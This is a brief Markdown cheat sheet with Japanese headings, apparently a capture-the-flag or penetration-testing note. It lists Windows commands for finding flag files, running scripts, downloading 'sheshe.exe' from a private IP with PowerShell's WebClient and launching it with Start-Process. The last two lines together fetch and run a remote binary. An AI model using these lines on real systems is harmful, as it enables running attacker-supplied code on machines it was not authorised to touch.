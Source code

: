 # Windows

### fileの発見
`dir flag* /s /p`

### スクリプト実行
`.\filename`

### fileをDL
`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.27.249:8000/sheshe.exe','sheshe.exe')"`

### powershellでプロセス実行
`powershell "Start-Process "sheshe.exe""`
